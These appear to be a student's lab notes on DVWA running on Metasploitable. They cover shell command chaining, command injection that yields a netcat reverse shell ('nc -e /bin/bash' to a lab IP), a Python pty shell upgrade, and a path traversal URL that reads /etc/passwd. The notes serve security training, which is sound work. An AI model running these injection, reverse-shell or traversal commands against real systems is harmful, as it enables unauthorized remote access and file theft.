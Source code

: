 ## Overview
- Talked about chaining commands ( using ; or | )

Ex: `ping -c 3 8.8.8.8; ip a`

The above command pings the 8.8.8.8 address 3 times, and then executes the `ip a` command

( || basically means that if the first command fails, it will do what is after the ||)

Ex: `ping -c 3 blabla || whoami`

- This will first ping a certain IP address 3 times, but of course, blabla is not an IP address, so the second command `whoami` will be executed.

## Command Execution
- Set security level of DVWA to low (at Metasploitable instance) 
The security level of the DVWA site emulates the amount of protections put in place to make a web app secure.

- `&&` implies that only if the first command succeeds, the second will run.
- Think of `&&` and `||` as opposites.

- `&` runs the first command in the background so you can still have terminal access.

- `for i in $(ls); do ls -a; done`

- This command uses`$()` to invoke bash scripting.

- Talked about POSIX standards; something under this standard will work on **any** UNIX machine.

Everything we talked about in the realm of command symbols:

`; | || & && $() ``

These are all ways to chain commands.


- We now started working under the 'Command Execution' tab on DVWA.


 Here, we basically used command chaining to exploit this vulnerable input field to have unsanitized command input be run.

 NOTE: after changing the DVWA security level to medium, we can see that the command chaining vulnerability no longer works! The application now seems to be sanitizing/filtering out chaining symbols such as |, ||, &, &&...

- If we click 'View Source' we can see that the previous command execution vulnerability is being accounted for by converting entered chaining symbols (`&& | ||...` ) into nothing (just `''`).

### Setting up Reverse Shell using Command Execution Page

- Using Netcat here

- Remember, we must set a listener and connector

`sudo nc -nvlp 80`

^Setup listener with that command

- Now we entered reverse shell  commands through the unsanitized input field on DVWA. (any commands entered on DVWA are executed on our Metasploitable2 instance).

- We used python today to make our shell information clearer to us.

![](https://cdn.ethereal.bond/file/github-images/Pasted+image+20220216183315.png)

Woah look how sick that is we just got a connection to our listening machine through the DVWA command execution page. 

This was possible through command chaining; the page didn't fully sanitize out `|` inputs in the field.

Its way too common that web developers do not sanitize their input fields for command/code injection vulnerabilities.

## File Inclusion

- First we copy the entire URL of the File Inclusion tab 

	`curl`

	`sudo apt update && sudo apt install curl -y`


`192.168.169.129/dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd`

by typing this into the search bar and change the 'page=' direct to a combination of ../ followed by *etc/passwd* , we  are trying to backtrack across all directories of this webpage, so we can then navigate to the directory (etc/passwd) that can be expected to hold passwords that we shouldn't be able to be seeing.


- Bash is the programming language that every terminal uses.

## Connecting to listening port using netcat

- `nc -e /bin/bash 192.168.133.129 80`


### Using Python to Upgrade a Shell (Spawn a Better Shell)

- `python -c "import pty; pty.spawn('/bin/bash');"`


**Changing environment variables permanently:**

From home directory:
`ls -la`

Followed by:
`nano .bashrc`


